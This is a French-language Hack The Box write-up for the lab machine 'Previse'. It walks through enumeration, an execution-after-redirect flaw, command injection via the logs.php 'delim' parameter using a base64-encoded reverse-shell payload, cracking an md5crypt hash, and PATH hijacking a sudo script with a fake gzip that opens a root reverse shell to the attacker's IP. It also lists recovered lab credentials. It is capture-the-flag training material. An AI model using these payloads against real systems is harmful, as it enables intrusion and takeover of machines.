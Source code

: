 ```yaml
---
title: HTB | Previse
description: Previse is a easy machine that showcases Execution After Redirect (EAR) which allows users to retrieve the contents and make requests to accounts.php whilst unauthenticated which leads to abusing PHP's exec() function since user inputs are not sanitized allowing remote code execution against the target, after gaining a www-data shell privilege escalation starts with the retrieval and cracking of a custom MD5Crypt hash which consists of a unicode salt and once cracked allows users to gain SSH access to the target then abusing a sudo executable script which does not include absolute paths of the functions it utilises which allows users to perform PATH hijacking on the target to compromise the machine.
slug: previse-htb
date: 2025-03-06 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Previse cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Previse</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.104</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
m4lwhere:ilovecody112235!
```

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -An -T4 -vvv 10.10.11.104
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbdbnxQupSPdfuEywpVV7Wp3dHqctX3U+bBa/UyMNxMjkPO+rL5E6ZTAcnoaOJ7SK8Mx1xWik7t78Q0e16QHaz3vk2AgtklyB+KtlH4RWMBEaZVEAfqXRG43FrvYgZe7WitZINAo6kegUbBZVxbCIcUM779/q+i+gXtBJiEdOOfZCaUtB0m6MlwE2H2SeID06g3DC54/VSvwHigQgQ1b7CNgQOslbQ78FbhI+k9kT2gYslacuTwQhacntIh2XFo0YtfY+dySOmi3CXFrNlbUc2puFqtlvBm3TxjzRTxAImBdspggrqXHoOPYf2DBQUMslV9prdyI6kfz9jUFu2P1Dd
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnDbkb4wzeF+aiHLOs5KNLPZhGOzgPwRSQ3VHK7vi4rH60g/RsecRusTkpq48Pln1iTYQt/turjw3lb0SfEK/4=
|   256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIICTOv+Redwjirw6cPpkc/d3Fzz4iRB3lCRfZpZ7irps
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

## Foothold

### Website with bad redirection
Le site web nous empeche de voir certaines pages et nous demande de nous authentifier sur la page de login.php.
Cependant, on observe qu'en vérité on recoit quand meme le code source de la page, avant d'etre redirigé !
On peut donc capturer la plupart des pages, detecter avec gobuster, et les ouvrir dans burp.
Ensuite, on a acces a une page sur lequel on peut créer un compte. On forge donc une requete POST depuis burp pour créer un nouveau compte. Enfin, on peut se connecter de manière classique sur le site web avec notre nouveau compte
```bash
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.11.104
Connection: keep-alive
Referer: http://10.10.11.104/login.php
Cookie: PHPSESSID=u7bqrqlp12dv65ple4ev2q1glr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=leopold&password=password&confirm=password
```

### files.php - siteBackup.zip
On trouve un zip avec tout le code du site web. On a notammment les creds mysql.
```bash
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

### logs.php code injection
Dans le fichier logs.php on découvre l'utilsation d'une variable $_POST['delim'] dans la fonction. On peut executer un shell facilement. On met en base64 le shell pour facilité l'execution de la commande:

POST /logs.php
...
delim=space;ech'/'o+c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvMTMzNyAwPiYx+|+base64+-d+|+bash

```bash
<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');

-----------------------------

┌──(kali㉿kali)-[~/htb/Previse/siteBackup]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.104] 60650
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@previse:/var/www/html$ 

www-data@previse:/var/www/html$ 

www-data@previse:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 1337
```

### m4lwhere - mysql db
On se connecte avec mysql et les creds recupérés dans config.php
```bash
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | leopold  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2025-03-05 17:01:15 |
+----+----------+------------------------------------+---------------------+
```
On casse le hash avec hashcat (md5crypt --> -m 500) :
```bash
$ hashcat -m 500 ./hash.txt ~/wordlists/rockyou.txt --show
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```
Connection en ssh :
```bash
┌──(kali㉿kali)-[~/htb/Previse/siteBackup]
└─$ ssh m4lwhere@10.10.11.104           
m4lwhere@10.10.11.104's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

...

Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ ls
user.txt
m4lwhere@previse:~$ cat user.txt 
ccde.....f7fd
```

## Privilege Escalation

### access_backup.sh as root
sudo -l --> on observe le fichier **/opt/scripts/access_backup.sh** que l'on peut executer en tant que root
On voit qu'il fait appel à la commande "gzip".
```bash
m4lwhere@previse:~/bin$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~/bin$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
On peut facilement executer n'importe quelle commande en tant que root en modifiant le PATH.
On crée un dossier bin dans le /home. On y met un fichier avec le nom "gzip" et la commande pour ouvrir un reverse shell dedans.
Enfin, on ajoute le dossier "bin" actuel en 1ere place dans le PATH.
Lorsque l'on va executer en tant que root le script access_backup.sh, il va chercher où se trouve le binaire gzip pour l'executer.
Le 1er dossier qu'il va fouiller est le notre que l'on vient d'ajouter contenant le faux gzip. Il va donc l'executer, au lieu du véritable gzip et ouvrir notre reverse shell en tant que root.
```bash
m4lwhere@previse:~/bin$ pwd
/home/m4lwhere/bin
m4lwhere@previse:~/bin$ export PATH=/home/m4lwhere/bin:$PATH
m4lwhere@previse:~/bin$ vim gzip
m4lwhere@previse:~/bin$ chmod +x gzip 
m4lwhere@previse:~/bin$ cat gzip 
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.19/6666 0>&1
m4lwhere@previse:~/bin$ sudo /opt/scripts/access_backup.sh 

-----------------------------------------

┌──(kali㉿kali)-[~/htb/Previse/siteBackup]
└─$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.104] 50272
# whoami
root
# cat /root/root.txt
3ed1.....e90e
```